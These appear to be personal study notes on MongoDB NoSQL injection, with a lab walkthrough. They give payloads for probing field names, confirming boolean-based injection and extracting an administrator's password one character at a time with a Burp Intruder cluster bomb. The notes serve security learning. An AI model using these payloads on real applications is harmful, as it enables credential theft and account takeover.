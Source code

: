 ### Identifying field names

Because MongoDB handles semi-structured data that doesn't require a fixed schema, you may need to identify valid fields in the collection before you can extract data using JavaScript injection.

For example, to identify whether the MongoDB database contains a password field, you could submit the following payload:
```
https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'
```

Send the payload again for an existing field and for a field that doesn't exist. In this example, you know that the username field exists, so you could send the following payloads:
```sql
admin' && this.username!=' 
admin' && this.foo!='
```

If the password field exists, you'd expect the response to be identical to the response for the existing field (username), but different to the response for the field that doesn't exist (foo).

You can alternatively use NoSQL operator injection to extract field names character by character. This enables you to identify field names without having to guess or perform a dictionary attack.
### *Lab*

The user lookup functionality for this lab is powered by a MongoDB NoSQL database.
we have a access control bug in the lookup functionality as we can see data for other accounts that exist 
we send the payload = `administrator'&&1=='1` -  and we are still able to retrieve account data i.e. it is vulnerable to injection 

the parameter's trigger different responses for true and false conditions. we check this by using
```sql
wiener' && '1'=='2   ->   Could not find user. 
wiener' && '1'=='1   ->   retrieves the account details for the wiener user.
```

Identify the password length: 
```sql
administrator' && this.password.length < 30 || 'a'=='b
```
Notice that the response retrieves the account details for the administrator user. This indicates that the condition is true because the password is less than 30 characters.
Reduce the password length in the payload, then resend the request.

putting the request in intruder [[burpsuite]] and by using a cluster bomb attack we could cycle through numbers in the index of the password, and also cycle the alphabets from a to z
```sql
administrator' && this.password[§0§]=='§a§
```
by seeing a sudden change in the length of the response we note that, that particular alphabet corresponding to the index is in the password

---
# NoSQL operator injection
